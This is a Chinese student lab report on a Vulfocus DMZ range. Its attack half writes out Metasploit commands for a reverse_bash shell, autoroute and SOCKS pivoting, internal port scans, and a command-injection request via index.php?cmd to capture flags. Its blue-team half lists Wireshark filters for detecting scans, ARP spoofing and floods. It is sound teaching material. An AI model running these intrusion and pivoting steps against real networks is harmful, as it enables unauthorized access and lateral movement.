

## DMZ蓝队部分持续检测和威胁识别的报告
### 实验环境

```
wmware workstation
        |--kali 2024.4(靶机)
        |--kali-attack 2025.1
```

### 实验步骤

- 环境准备

首先搭建DMZ的拓扑：


然后在vulfocus里的场景中将刚刚上传的情景启动，得到端口：
通过虚拟机ip地址：端口在浏览器中访问：


在终端运行docker ps，发现和视频里相比少很多，
在运行
```
docker ps -a
```


配置docker文件：
```
"default-ulimits": {
         "nofile": {
                 "Name": "nofile",
                 "Hard": 64000,
                 "Soft": 64000
         }
    }
```

然后启动容器，在运行
```
docker exec -it vulfocus-vul-focus-1 redis-server &
```
替换成需要的容器名，重新进入环境。
docker ps -a


靶机开启tmux进行tcpdump抓包：

```
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


然后进入kali-attack中进行逐层的靶标攻击：

### 第一层部分


通过不同方面的搜索找到利用的漏洞进行使用：


选择需要的payload，对剩下需要配置的进行配置：
```
set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.240.131   #靶机IP
set RPORT  8080    #靶机目标端口  
set LHOST  192.168.240.135   #攻击者主机IP 
```


然后进行攻击，由于我之前操作过，这里进入的就是meterpreter模式：



拿到第一层flag:flag-{bmha1c5ffe5-9b83-41ca-9882-e8e3103acdfb}


### 第二层部分


然后ctrl+z让 session 放入后台

```
 db_nmap -p 57526,80,22 192.168.240.131 -A -T4 -
n
```


进入回话中查看ipconfig:


发现一个新的内网网段192.171.84.0/24
将目标网段创建为一个代理：
```
run autoroute -s 192.170.84.0/24

# 检查 Pivot 路由是否已创建成功
run autoroute -p
# Active Routing Table
# ====================
# 
#    Subnet             Netmask            Gateway
#    ------             -------            -------
#    192.170.84.0       255.255.255.0      Session 2
```

退出当前会话，
```
search portscan
use auxiliary/scanner/portscan/tcp
show options
```


然后还是上面类似的set过程
```
# 根据子网掩码推导
set RHOSTS 192.170.84.2-254
# 根据「经验」
set PORT 7001
# 根据「经验」
set threads 10
```
run -j进行攻击，
然后services:


发现三台目标靶机

重新选模块配置代理服务直接启动
```
# setup socks5 proxy 
search socks_proxy
use auxiliary/server/socks_proxy
run -j
```

新开一个终端窗口，
```
# 检查 1080 端口服务开放情况
sudo lsof -i tcp:1080 -l -n -P
```

然后配置文件
```
删除/etc/proxychains4.conf内容
```
执行下面语句：
```
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf

proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5
```

显示的过滤即是打开


 回到 metasploit 会话窗口
 重新进入 shell 会话
执行
```
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.3:7001 -vv
curl http://192.170.84.4:7001 -vv
```
发现404，说明网络层连通

继续像前面一样搜索漏洞类型，使用，并配置相关必须配置部分：


然后攻击发现攻击失败，后来检查services发现我的三台虚拟机地址是从3-5，所以更改后发现成功：


以此类推，依次把
RHOSTS = 
修改为4，5


### 第三层部分

执行
```
sessions -c "ifconfig" -i 3,4,5
```
找出“跳板机”，也就是双网卡虚拟机：


通过比较三个结果我们发现，192.170.84.3有两个网卡，并且内网为：
```
192.169.85.3
#即192.169.85.0/24
```
将会话 3 升级为 meterpreter shell
新的 meterpreter shell 会话编号此处为 6


进入会话：
```
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.169.85.0/24
run autoroute -p
```


```
# 通过 CTRL-Z 将当前会话放到后台继续执行
use scanner/portscan/tcp
set RHOSTS 192.169.85.2-254
set ports 80
run 
```


发现终点靶标 192.169.85.2 80(tcp)


```
# 利用跳板机 192.170.84.3 的 shell 会话「踩点」最终靶标
sessions -c "curl http://192.169.85.2" -i 5
# 发现没安装 curl ，试试 wget
sessions -c "wget http://192.169.85.2" -i 5
# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.169.85.2 -O /tmp/result && cat /tmp/result" -i 5
# 发现 get flag 提示
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
# index.php?cmd=ls /tmpflag-{bmh8f2e8555-eab8-43f9-8654-78c019607788}
```


至此，dmz的攻击部分结束，下面在靶机上结束抓包，开始分析和检测漏洞：

### 蓝队部分
分析和检测：
在攻击时靶机抓到的包通过scp发送到windows本机分析：

* 首先进行ARP分析：


根据ARP规则过滤出来的结果来看，192.170.84.2向从192.170.84.1 -192.170.84.254的地址短时间内进行请求，说明可能在进行潜在的网络扫描，且攻击者ip地址为192.170.84.2。

接着用下面规则过滤
```
ip.src == 192.170.84.2 && ip.dst >= 192.170.84.1 && ip.dst <= 192.170.84.254
```


大量的 “Destination Unreachable (Host Unreachable)” ICMP 报文指示 192.170.84.2 正在尝试访问不可达的主机。可能是攻击者可能在尝试识别网络中的存活主机。

```
arp.dst.hw_mac==00:00:00:00:00:00
```
在 ARP 扫描期间，攻击者通常会在广播 （ff：ff：ff：ff：ff：ff） 上发送大量 ARP 请求，这些请求的目标为 MAC 地址 00：00：00：00：00：00：00，以便发现本地网络上的活动 IP 地址。
这个过滤条件目的是检测第 2 层主机发现，例如使用 arp-scan -l。


在这种情况下，攻击者的 IP 地址为 192.170.84.2


* ARP 投毒
```
arp.duplicate-address-detected or arp.duplicate-address-frame
```
目的：检测中间人攻击，例如 arpspoof、ettercap。


* IP 协议扫描
以下是用于识别 IP 协议扫描的 Wireshark 过滤器：
```
icmp.type==3 and icmp.code==2
```
IP 协议扫描是一种允许攻击者发现目标作系统支持哪些网络协议的技术（例如，通过运行 ）。nmap -sO <target>


这里没有结果说明攻击者没有进行ip协议扫描

* ICMP 洪水
```
icmp and data.len > 48
```

目的：检测拒绝服务攻击，例如 fping、hping


* TCP SYN 扫描
```
tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size<=1024
```
目的：检测隐秘扫描，例如 nmap -sS <target>


* TCP Connect（） 扫描
下面是一个用于检测 TCP Connect（） 端口扫描的 Wireshark 过滤器：
```
tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size > 1024
```


如果我们在短时间内看到太多此类数据包，则很可能有人在执行以下作：

- 端口扫描（例如，通过运行nmap -sT <target> )
- 端口扫描（例如，通过运行nmap -sT -pXX <subnet> )

### 结合统计中的功能：

* 会话

查看不同 IP 地址或端口之间的流量，识别异常通信模式，如可能扫描或攻击。


* 端点
 
监控每个 IP 地址的流量，检测异常高流量的主机，可能涉及 DDoS 或数据外泄。


* IO 图

绘制流量随时间的变化，观察流量突增等异常


* 协议分级统计
显示捕获文件中各协议的流量占比，包括包数和字节数。
检测特定协议的异常增加，如 ICMP 流量激增可能指示 ping 洪水攻击


* 流量图
可视化主机间流量流向，显示 TCP/UDP 会话的详细流向。
可识别复杂攻击模式，如多阶段攻击或横向移动。异常流量流向可能指示恶意活动。


### 也可以用网页版流量分析工具：CloudShark


## 参考资料

[网络安全课件]( https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html)

[网络安全综合实验](https://www.bilibili.com/video/BV1p3411x7da?t=1.2)

[CVE-2020-17530: Apache Struts2 远程代码执行漏洞通告](https://pub-shbt.s3.360.cn/cert-public-file/%E3%80%90360CERT%E3%80%91CVE-2020-17530__Apache_Struts2_%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E9%80%9A%E5%91%8A.pdf)

[绿盟ApacheStruts远程代码执行漏洞S2-061(CVE-2020-17530)通告](https://nti.nsfocus.com/api/v2/report/pdf/?file=Apache_Struts_remote_code_execution_S2061_vulnerability_Announcement_20201209.pdf)

[使用wireshark检测网络攻击](https://www.infosecmatter.com/detecting-network-attacks-with-wireshark/)

[网页版流量分析](https://www.cloudshark.org/)